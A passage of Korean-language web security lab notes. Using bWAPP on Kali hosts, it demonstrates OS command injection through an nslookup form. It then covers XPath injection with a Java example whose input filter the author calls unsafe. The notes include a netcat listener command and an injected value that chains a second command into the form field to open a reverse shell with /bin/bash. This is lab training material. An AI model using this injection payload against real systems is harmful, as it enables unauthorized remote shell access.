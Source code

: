   ```html
         </pre>
  </form>
  ```

* nslookup 기능을 지원하는 사이트에서의 공격

  * @Kali#2 > 브라우저로 http://KALI#1/bWAPP (bee/bug) 접속
  * Choose your bug : OS Command Injection 선택 후 Hack 버튼 클릭
  * nslookup 서비스를 제공
    root@kali:~# cd /var/www/html/bWAPP/root@kali:/var/www/html/bWAPP# gedit commandi.php 
  * @Kali#2# nc -lvp 8282 ⇐ 8282 포트로 연결대기
  * @Kali#2OS Command Injection 페이지에서 아래 내용을 입력
    www.naver.com ; nc KALI#2_IP 8282 -e /bin/bash
    ⇐ KALI#2의 8282포트로 연결 후 /bin/bash을 실행
  * @Kali#2 터미널에서 쉘 명령어를 실행 → Kali#1에서 실행된 결과가 터미널에 출력
    ![img](https://lh3.googleusercontent.com/kO_JYbHhDNhJvI7faqGvDcE6EniTSiy_koPvxuaG9HAerhGQXHL9l66DlyGBz49TGHeOXGcLymgMJ4jQPefYiAyihK9a5uz2GmBVMsWFNHHtV-g3R1R9oAX-yuoDov7DMTy6Bnh3)



### XPath Injection

* XML문서에 사용되는 표현식

* XML문서에서 특정 입력 값을 찾기 위해서 XPath를 사용한다.

* 입력 값을 검증하지 않고 사용하거나, XQuery 구문을 사용하여 예방 할 수 있다.

* 실습

  * TestUtil.java open

  * 아래와 같이 코드 수정

    ```java
    // 입력 값 필터링 코드
    	// 안전한 방법은 아니지만 일부 문자를 필터링 할 수 있다.
    	public String xpathFilter(String input) {
    		return input.replaceAll("[',\\[]", "");	// ', [ 를 제거하는 코드
    	}
    
    	public String readXML(String name) {
    
    		StringBuffer buffer = new StringBuffer();
    
    		try {
    			InputStream is = this.getClass().getClassLoader().getResourceAsStream("config/address.xml");
    			DocumentBuilderFactory builderFactory = DocumentBuilderFactory.newInstance();
    			DocumentBuilder builder = builderFactory.newDocumentBuilder();
    			Document xmlDocument = builder.parse(is);
    			XPath xPath = XPathFactory.newInstance().newXPath();
    
    			System.out.println("ccard 출력");
    			String expression = "/addresses/address[@name='" + xpathFilter(name) + "']/ccard";
    
    			NodeList nodeList = (NodeList) xPath.compile(expression).evaluate(xmlDocument, XPathConstants.NODESET);
    			for (int i = 0; i < nodeList.getLength(); i++) {
    				buffer.append("CCARD[ " + i + " ]  " + nodeList.item(i).getTextContent() + "<br/>");
    			}
    ```
